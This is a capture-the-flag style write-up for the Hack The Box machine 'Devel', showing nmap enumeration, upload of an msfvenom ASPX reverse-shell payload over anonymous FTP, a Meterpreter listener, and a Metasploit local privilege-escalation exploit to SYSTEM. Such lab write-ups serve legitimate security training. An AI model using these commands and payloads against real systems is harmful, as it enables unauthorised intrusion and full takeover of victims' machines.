 ```yaml
---
title: "HTB Devel"
date: 2023-07-18T07:17:05Z
draft: true
---
```


This is my writeup for the HTB Machine [Devel](https://app.hackthebox.com/machines/Devel)

## Info
---
- my os: Kali 2023.2
- my ip: 10.10.14.6
- machine ip: 10.10.10.5

## Enumeration
---
```
$ nmap -sV -sC 10.10.10.5 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-18 10:45 UTC
Nmap scan report for 10.10.10.5
Host is up (0.048s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.24 seconds

```
key takeaways:
- there is a ftp-server on port 21 and it allows anonymous login
- there is an iis web-server on port 80

It seems like the ftp is pointing to `c://inetpub//wwwroot` where the files for the web-server a stored. 
Let's confirm this by surfing to `http://10.10.10.5/welcome.png`. Bingo!

## Gaining Access
---
Most likely we can upload files via ftp so let's craft a payload for a reverse shell via msfvenom:
``` 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f aspx > msfshell.aspx
```
Afterwards we upload the payload via ftp:
```
$ ftp anonymous@10.10.10.5
put msfshell.aspx
```
Before we run the aspx file, we need a listener on the attacker machine:
```
$ msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.6
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```
Now we can execute the aspx by surfing to `http://10.10.10.5/msfshell.aspx`.
We should have a meterpreter session now :)
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```
## Privileg Escalation
---
Because i'm lazy i'll use `local_exploit_suggest` by running
```
meterpreter > run post/multi/recon/local_exploit_suggester 
```

I'll go with `windows/local/ms13_053_schlamperei`
```
msf6 > use windows/local/ms13_053_schlamperei
msf6 exploit(windows/local/ms13_053_schlamperei) > set session 1
msf6 exploit(windows/local/ms13_053_schlamperei) > set lhost 10.10.14.6
msf6 exploit(windows/local/ms13_053_schlamperei) > run
```
and we are root :)
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now we just have to find the wanted flags:
```
meterpreter > search -f user.txt
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\babis\Desktop\user.txt  34            2023-07-18 08:59:08 +0000

meterpreter > search -f root.txt
Found 1 result...
=================

Path                                     Size (bytes)  Modified (UTC)
----                                     ------------  --------------
c:\Users\Administrator\Desktop\root.txt  34            2023-07-18 08:59:08 +0000

```

Happy hacking :)
